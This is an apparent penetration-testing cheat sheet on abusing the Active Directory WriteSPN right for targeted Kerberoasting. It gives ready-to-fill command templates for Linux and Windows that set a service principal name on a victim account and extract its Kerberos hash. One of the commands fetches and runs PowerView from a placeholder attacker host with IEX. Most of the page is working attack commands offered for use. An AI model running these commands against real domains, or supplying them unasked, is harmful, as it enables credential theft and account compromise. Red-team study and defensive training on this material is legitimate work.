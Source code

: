 # WriteSPN abuse

### USER have WriteSPN over USER:

If an user have WriteSPN over another user will be able to get the hash of that user. To do it will become that user "kerberoasteble".

#### From Linux (externally, recomended):

With password -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -p '<password>'`

With nt hash  -> `targetedKerberoast.py -v -d '<domain>' -u '<user you control>' -H :<nt hash>`

<br>

Kerberos Authentication:

`getTGT.py <domain>/<user>:<password> -dc-ip <dc_ip>`

`export KRB5CCNAME=<file.ccache>`

`targetedKerberoast.py -v -d '<domain>' -u '<user>' -p '<password>' -k --dc-host <machine.domain>`

Note: If clock error appears "KRB_AP_ERR_SKEW" use kerberos sync command before.

<br>

#### From Windows (internally):

Load powerview module first -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

Make sur that the target account has no SPN -> `Get-DomainUser '<victimuser>' | Select serviceprincipalname`

Set the SPN -> `Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}`

Obtain a kerberoast hash -> `$User = Get-DomainUser '<victimuser>' ; $User | Get-DomainSPNTicket | fl`







